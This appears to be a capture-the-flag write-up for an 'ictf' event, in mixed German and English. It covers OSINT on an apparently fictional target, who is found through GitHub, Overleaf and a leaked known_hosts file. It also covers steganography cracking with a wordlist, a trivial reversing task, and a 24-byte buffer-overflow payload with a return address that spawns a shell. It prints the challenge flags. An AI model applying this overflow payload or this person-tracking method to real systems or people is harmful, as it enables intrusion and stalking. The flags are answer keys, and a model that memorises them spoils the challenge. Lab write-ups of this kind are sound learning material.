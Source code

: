 ## OSINT 

### Gaining Insight

Target-Info: kristen@kristenchavis.com

* Die Domain ist nicht registriert
* Es gibt keinen offensichltichen treffer bei Google mit der Email in "".

Found: https://github.com/kristenchavis01/resume

She uploaded a profile picture as an asset on overfleaf.com

https://www.overleaf.com/project/63ea33369011ed0787115818

Download the image and run stegcracker on it with rockyou.txt

ictf{av01d_th3_z1p_b0mb_87ad2th}


### Find IP

You can find a known_hosts file in her GitHub repository. That file contains the ip of the target.

https://github.com/kristenchavis01/dotfiles/blob/main/.ssh/known_hosts

```!
170.187.232.216 ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPY2c6B/GO4EfIczGPwtdZWn1ml0eoDPOtX7hQ8cWzcK
```

ictf{170.187.232.216}

## REV

### Meow

```
cat meow
```

ictf{easiest_challenge_of_them_all}


## PWN

### BabyFlow

* Statically compiled executable
* not stripped
* found `vulnerable_function` in decompiler
* we can overwrite the return pointer after 24 bytes
* this launches a shell for us

```
BBBBBBBBBBBBBBBBBBBBBBBB\n\xfc\x91\x04\x08\ncat /home/ctf/flag && echo ""\n
```
